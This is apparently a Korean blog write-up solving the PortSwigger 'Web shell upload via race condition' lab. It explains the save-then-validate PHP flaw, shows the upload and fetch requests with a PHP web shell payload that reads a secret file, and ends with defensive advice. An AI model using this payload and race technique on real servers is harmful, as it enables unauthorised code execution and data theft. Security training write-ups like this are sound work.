


+++
date = '2026-10-07T21:10:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Web shell upload via race condition"
summary = "업로드 파일을 저장한 뒤 검사하고 삭제하는 사이의 시간차를 이용하는 File Upload Race Condition 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Expert"]
+++

---

## 문제 분석

> **난이도**: `EXPERT`  
> **Lab**: [Web shell upload via race condition](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

> 

이 랩은 아바타 파일을 검사하지만, 검사 전에 파일을 웹에서 접근할 수 있는 위치에 저장한다. 파일이 삭제되기 전에 PHP를 실행해 `/home/carlos/secret`의 내용을 확인하고 제출하는 것이 목표다.

실습 계정은 `wiener:peter`다. 랩에서 제공하는 업로드 처리 코드는 다음과 같다.

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

### File Upload 진단

`move_uploaded_file()`이 먼저 실행되고, 이후 `checkViruses()`와 `checkFileType()`이 파일을 검사한다. 허용되지 않는 파일은 `unlink()`로 삭제된다.

```php
// [1] 파일(웹쉘 등)을 웹 접근 가능 디렉터리에 먼저 저장
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

// [2] 저장한 "이후"에 바이러스 및 확장자 검사 수행
if (checkViruses($target_file) && checkFileType($target_file)) {
    ...
} else {
    // [3] 검사 실패 시 삭제
    unlink($target_file);
}
```

파일이 저장된 시점부터 삭제되기 전까지는 아바타 URL로 접근할 수 있다. 검사 중에 같은 파일을 요청하면 PHP 처리기가 그 파일을 실행할 수 있는 구조다.

---

## 익스플로잇

업로드할 이름과 조회할 이름을 `fake-image.php`로 맞추고 두 요청을 준비한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a6f005504922cd8827b10ad0024007a.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymzhS60y9B1mCw8Tl
...

------WebKitFormBoundarymzhS60y9B1mCw8Tl
Content-Disposition: form-data; name="avatar"; filename="fake-image.php"
Content-Type: image/png

<?php system("cat /home/carlos/secret");?>
------WebKitFormBoundarymzhS60y9B1mCw8Tl
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarymzhS60y9B1mCw8Tl
Content-Disposition: form-data; name="csrf"

WUZxJIO7v3f1uSM1fle7pbcI3rmBfFVT
------WebKitFormBoundarymzhS60y9B1mCw8Tl--
```

```text
GET /files/avatars/fake-image.php HTTP/2
Host: 0a6f005504922cd8827b10ad0024007a.web-security-academy.net
...
```

업로드 요청을 보낸 뒤 GET 요청을 빠르게 이어 보내면 삭제되기 전에 파일이 실행된다. 풀이에서 확인한 응답의 주요 부분은 다음과 같다.

```text
HTTP/2 200 OK
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

nKgn6kpCBLc1k1pMWnNHBpmypanXzaBv
```

확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

파일이 최종 검사에서 거부되더라도 저장과 삭제 사이에는 접근 가능한 상태가 생긴다. 이 랩에서는 그 시점의 GET 요청이 PHP를 실행하면서 파일 내용이 반환됐다.

검증이 끝나기 전에는 외부에서 접근할 수 없는 위치에 파일을 두고, 승인된 파일만 공개해야 한다. 삭제를 통해 실패한 업로드를 정리하는 구조에서는 삭제되기 전 상태까지 보안 검토 범위에 포함해야 한다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
